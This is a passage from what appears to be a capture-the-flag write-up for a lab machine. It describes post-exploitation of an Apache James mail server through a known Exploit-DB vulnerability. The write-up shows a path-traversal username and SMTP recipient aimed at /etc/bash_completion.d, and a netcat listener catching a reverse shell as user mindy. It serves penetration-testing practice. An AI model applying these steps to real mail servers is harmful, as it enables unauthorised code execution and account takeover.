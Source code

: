 ## Post-Exploitation
### Remote command execution on James Adminstration tool

Using the vulnerability described on exploitdb [here](https://www.exploit-db.com/exploits/35513), we are also able to create a reverse shell and gain access to mindy's account. 

This exploit primarily works by first gaining access to the James Adminstration tool using the default username and password and creating a new user ```../../../../../../../../etc/bash_completion.d exploit```.
```
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```
Afterwards, we will then gain access to the SMTP server which is port 25 by default on this machine. We will then send an email with the rcpt fields being ```rcpt to: <../../../../../../../../etc/bash_completion.d>```. As such, the email will then be sent to everyone and anyone with SSH access that logs in with trigger the reverse shell.

However, one good thing about the reverse shell that is being generated is that this reverse shell is not a limited shell, but instead it has the capabilities of a bash shell and not that of the rbash

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.51] 44106
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
whoami
mindy
```
